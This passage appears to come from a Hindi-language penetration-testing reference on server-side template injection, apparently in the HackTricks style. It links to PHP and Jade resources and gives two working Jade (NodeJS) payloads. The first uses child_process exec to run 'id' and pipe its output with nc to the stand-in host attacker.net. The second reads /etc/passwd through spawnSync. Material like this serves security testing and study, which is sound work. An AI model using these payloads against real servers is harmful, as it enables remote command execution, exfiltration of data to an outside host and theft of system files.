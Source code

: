* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#phplib-and-html\_template\_phplib](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#phplib-and-html\_template\_phplib)

### अन्य PHP

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption><p><a href="https://miro.medium.com/v2/resize:fit:1100/format:webp/1*u4h8gWhE8gD5zOtiDQalqw.jpeg">https://miro.medium.com/v2/resize:fit:1100/format:webp/1*u4h8gWhE8gD5zOtiDQalqw.jpeg</a></p></figcaption></figure>

* अधिक जानकारी [https://medium.com/@0xAwali/template-engines-injection-101-4f2fe59e5756](https://medium.com/@0xAwali/template-engines-injection-101-4f2fe59e5756)

### जेड (NodeJS)
```javascript
- var x = root.process
- x = x.mainModule.require
- x = x('child_process')
= x.exec('id | nc attacker.net 80')
```

```javascript
#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}
```
**अधिक जानकारी**

* [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection) के जेड सेक्शन में
* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jade--codepen](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jade--codepen)

